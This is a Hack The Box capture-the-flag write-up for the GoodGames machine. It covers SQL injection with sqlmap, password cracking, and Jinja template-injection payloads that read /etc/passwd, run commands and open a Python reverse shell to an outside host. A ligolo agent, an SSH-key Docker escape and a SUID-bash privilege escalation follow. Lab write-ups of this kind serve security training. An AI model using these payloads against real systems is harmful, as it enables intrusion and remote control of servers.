---
title: 'HTB-GoodGames'
published: 2025-09-18
draft: false
toc: true
---
**Start 12:07 28-10-2025**

---
```
Scope:
10.10.11.130
```
# Recon
## Nmap

```bash
sudo nmap -sC -sV -sT -p- -vvvv -T5 --min-rate=5000 -Pn 10.10.11.130

PORT   STATE SERVICE REASON  VERSION
80/tcp open  http    syn-ack Werkzeug httpd 2.0.2 (Python 3.9.2)
| http-methods: 
|_  Supported Methods: HEAD OPTIONS GET POST
|_http-server-header: Werkzeug/2.0.2 Python/3.9.2
|_http-favicon: Unknown favicon MD5: 61352127DC66484D3736CACCF50E7BEB
|_http-title: GoodGames | Community and Store
```

## 80/TCP - HTTP

The site seems to be running on `python`, meaning it's LIKELY a **Flask** or **Django** instance.




`wappalyzer` tells us it's running on **Flask 2.0.2**.

I went ahead and tested the functionality of the website such as the sign up page:






I analysed the requests in `burp`:



The cookie looks like a JWT token:



Other than that I didn't find anything so I started off by automating some testing.

# Exploitation
## SQLi

I went ahead and tested some of the `POST` requests like the password reset and such using `sqlmap` until one of them worked:









I cracked this password using crackstation



```
admin@goodgames.htb
superadministrator
```




This time a new Icon appeared:



Clicking on it redirects us to another vhost:





## internal-administration.goodgames.htb



I can log in with the previously found creds:


## SSTI

However since this is **Flask** I tried out to exploit a **SSTI** vulnerability:





It worked since this is the expected output of the `jinja` templating language.

>[!note]
>The result will enable us to deduce the template engine used by the web application. In Jinja, the result will be `7777777`, while in Twig for example, the result will be `49`. Since this application is running on **Flask** though, `jinja` is the only viable option here.

We can start testing various payloads, the following for example outputs the web application's configuration:

```python
{{ config.items() }}
```


We can use the following to achieve **LFI**:

```python
{{ self.__init__.__globals__.__builtins__.open("/etc/passwd").read() }}
```



And we can even achieve **RCE** by importing the `os` library.

```python
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('whoami;id').read() }}
```



Well that's convenient! However after some further testing I found out that this instance is running from a `docker` container:

```python
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('ip a').read() }}
```



This is verified using the following payload:

```python
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('ls -la').read() }}
```



# Foothold
## Docker shell as root

With the use of the following payload I got myself a reverse shell into the `docker` container:

```python
{{ self.__init__.__globals__.__builtins__.__import__('os').popen("python3 -c 'import os,pty,socket;s=socket.socket();s.connect((\"10.10.14.8\",80));[os.dup2(s.fileno(),f) for f in (0,1,2)];pty.spawn(\"/bin/bash\")'").read() }}
```



However I can still get the `user.txt` flag easily.

### user.txt



The `root.txt` flag however is not present:



# Docker Escape
## Ligolo-ng

Since the *augustus* user is mounted here we can try to upload our `ssh` key to their `.ssh` directory in order to get a foothold that way. 
In order to do this though we need to set up a `ligolo` port forward first since the `22` port isn't open to the outside.

```bash
nohup ./agent -connect 10.10.14.8:11601 -ignore-cert >/dev/null 2>&1 &
```







Next up we transfer the `id_rsa.pub`:





## Shell as augustus

Now it's as easy as pie:





We notice that we've successfully escaped the docker container.

# Privilege Escalation

1. From the `ssh` host we will copy over the `bash` binary:



2. From the `docker` container we will modify the permissions on the binary:



3. Profit



## root.txt





---

**Finished 14:00 28-10-2025**

[^Links]: [[Hack The Box]]

#docker-escape #docker #SSTI #SQLi #sqlmap 
